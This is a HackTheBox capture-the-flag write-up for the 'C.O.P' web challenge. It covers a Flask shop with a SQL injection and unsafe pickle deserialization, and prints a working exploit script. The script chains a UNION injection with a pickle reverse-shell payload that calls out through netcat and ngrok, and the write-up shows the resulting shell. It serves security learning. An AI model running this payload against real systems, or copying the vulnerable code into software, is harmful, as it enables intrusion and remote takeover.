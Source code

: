 ```yaml
---
title: HackTheBox - C.O.P
author: 0
date: 2023-03-31 18:00:00 +0800
categories: [htb, challenge]
tags: [web, sql-injection, insecure-deserialization, pickle]
render_with_liquid: false
---
```

# C.O.P

> The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

When the code uses `pickle`, Insecure Deserialization directly comes to mind. In this case, pickle data is deserialized when the homepage or a certain product page is requested.

When a certain product page is requested, an id parameter is provided in the URL. There is raw data being placed in a format string in the `select_by_id` method that provides the data for the product page.

```python
from application.database import query_db

class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)

    @staticmethod
    def all_products():
        return query_db('SELECT * FROM products')    
```

This data then gets loaded by `pickle`.

```python
from flask import Flask, g
from application.blueprints.routes import web
import pickle, base64

app = Flask(__name__)
app.config.from_object('application.config.Config')

app.register_blueprint(web, url_prefix='/')

@app.template_filter('pickle')
def pickle_loads(s):
	return pickle.loads(base64.b64decode(s))

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None: db.close()
```

We can write a script that performs an SQL injection on the product_id parameter to add our serialized payload that then spawns a reverse shell. I didn't managed to get the `cat flag.txt` payload to work, but a reverse shell did work.

```python
import requests
import sys
import base64
import pickle

class Exploit():
    def __reduce__(self):
        import os
        cmd = ("mkfifo /tmp/f;nc NGROK_URL NGROK_PORT  0</tmp/f|/bin/sh -i 2>&1|tee /tmp/f")
        return os.system, (cmd,)
serialized_data = base64.b64encode( pickle.dumps(Exploit())).decode()
payload = f"1' UNION select '{serialized_data}' --" 
encoded_payload = requests.utils.requote_uri(payload)

url = f'http://{sys.argv[1]}'
response = requests.get(f'{url}/view/{encoded_payload}') 
print(response.request.url)
print(response.content)
```

Important to first install and run [ngrok](https://0xdf.gitlab.io/2020/05/12/ngrok-ftw.html), replace `NGROK_URL` and `NGROK_PORT` in the payload:
```bash
$ Downloads/ngrok tcp 9001
```

Start a netcat session, in a seperate terminal, to catch the reverse shell:
```bash
$ nc -lvnp 9001
```

After running the exploit script, we get a shell through our netcat listener:
```bash
$ python3 exploit2.py 161.35.164.69:31934
```

```bash
$ nc -lvnp 9001                                
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 39644
/bin/sh: can't access tty; job control turned off
/app # ls
application
cop.db
flag.txt
requirements.txt
run.py
schema.sql
/app # cat flag.txt
HTB{**REDACTED**}
/app # 
```
